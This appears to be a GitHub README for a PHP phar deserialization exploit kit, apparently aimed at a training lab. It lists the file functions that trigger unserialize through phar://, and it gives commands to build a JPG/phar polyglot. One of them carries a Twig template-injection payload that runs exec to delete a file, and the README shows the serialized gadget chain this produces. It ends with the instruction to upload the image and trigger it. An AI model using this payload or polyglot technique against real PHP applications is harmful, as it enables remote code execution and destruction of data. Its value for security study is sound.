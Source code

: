 # php unserialize without unserialize

## Thanks to `phar://`, we can trigger unserialize whenever file system call.

## Affected Method
| | | |
|-|-|-|
| fileatime | filectime   | file\_exists | file\_get\_contents | file\_put\_contents | is\_writeable |
| file      | filegroup   | fopen       | fileinode         | filemtime         | readfile     |
| fileowner | fileperms   | is\_dir      | is\_executable     | is\_file           | stat         |
| is\_link   | is\_readible | is\_writable | parse\_ini\_file    | copy              | unlink       |

## Quick Start
```bash
$ php phar_generate.php
$ php phar_vuln.php
```

## Polyglot between JPG & phar

Edit `phar-jpg-poly.php` to build unserialize gadget chain, place base image (in.jpg) in current directoy.
```bash
$ php phar-jpg-poly.php "{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('rm /home/carlos/morale.txt')}}"                  
string(211) "O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"user";s:0:"";s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('rm /home/carlos/morale.txt')}}";}}"
```

Now, upload `out.jpg` & trigger phar://path/to/image to exploit!!

## Reference

* https://medium.com/@knownsec404team/extend-the-attack-surface-of-php-deserialization-vulnerability-via-phar-d6455c6a1066

